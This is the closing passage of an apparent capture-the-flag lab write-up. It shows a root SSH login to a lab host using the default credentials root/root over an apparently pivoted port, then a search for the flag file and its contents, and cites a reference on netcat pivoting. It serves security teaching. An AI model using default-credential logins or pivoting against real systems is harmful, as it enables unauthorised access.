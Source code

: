 {% endtab %}
{% endtabs %}

{% hint style="success" %}
**Flag encountered for** `172.16.50.222!`

`root/root`, just login from your attacker machine:

```
> ssh root@127.0.0.1 -p 222
root@127.0.0.1's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-104-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

199 packages can be updated.
11 updates are security updates.

Last login: Sun Jul 18 22:14:47 2021 from 172.16.50.224

root@xubuntu:~# find / | grep flag.txt
find: ‘/run/user/108/gvfs’: Permission denied
/root/.flag.txt

root@xubuntu:~# cat /root/.flag.txt
Congratz! You got it.
```
{% endhint %}

## References

{% embed url="https://security.stackexchange.com/questions/188921/use-netcat-to-pivot" %}
